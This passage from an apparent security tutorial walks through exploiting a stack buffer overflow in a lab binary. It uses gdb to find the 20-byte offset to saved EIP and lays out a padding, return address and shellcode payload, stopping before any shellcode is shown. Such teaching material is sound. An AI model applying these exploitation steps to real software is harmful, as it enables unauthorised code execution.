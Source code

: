 The simplest thing to do then is to do exactly the same thing as in the first case, except that this time we will inject our shellcode **after** the save of EIP, as shown in the following figure :

[![img_54f78478da290](/assets/uploads/2015/03/img_54f78478da290.png)](/assets/uploads/2015/03/img_54f78478da290.png)

The `NOP` (`\x90`) pool is only here to make it easier, it is not necessary. Aiming for a range of 200 `NOP` is easier than aiming for the exact start address of the shellcode. However, we are still going to do it without, otherwise it would be too simple !

The first steps of case 1 are still valid. Let's do our little math again. We can see in the assembly instructions that 0x10 bytes (so 16) are allocated for the buffer for `strcpy`. If we add the size of `EBP`, that makes 20 bytes. We can verify this calculation simply by sending a 22 characters long string, and checking that `EIP` as been overwritten halfway :

```bash
(gdb) run `perl -e 'print "A"x22'`
Starting program: /tmp/hackndo/binary `perl -e 'print "A"x22'`
AAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
(gdb)
```

We can see that the program tried to access the memory address 0x08004141. So the last two characters of our string overflow on the `EIP` save. So there are two characters overflowing, which makes 20 bytes before overwriting `EIP` as we planned (not counting the null byte). So for our payload we need :

  * 20 characters (no matter which ones)
  * The address following the one at which EIP is saved
  * (The NOP pool, but we'll do without)
  * The shellcode

[![img_54f78d2d9a419](/assets/uploads/2015/03/img_54f78d2d9a419.png)](/assets/uploads/2015/03/img_54f78d2d9a419.png)

To find out the address of the `EIP` save (and thus the address that follows), let's put a breakpoint right after that `EIP` is pushed on the stack, i.e. at the first `func` instruction and look at the value of `ESP`.

```bash
(gdb) break *0x080483f4
Breakpoint 1 at 0x80483f4
(gdb) run `perl -e 'print "A"x69'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /tmp/hackndo/binary A

Breakpoint 1, 0x080483f4 in func ()

(gdb) i r $esp
esp            0xbffffc4c    0xbffffc4c

(gdb) x/4xw $esp
0xbffffc4c:    0x08048446    0xbffffe81    0xb7ff1380    0x0804846b

(gdb)
```
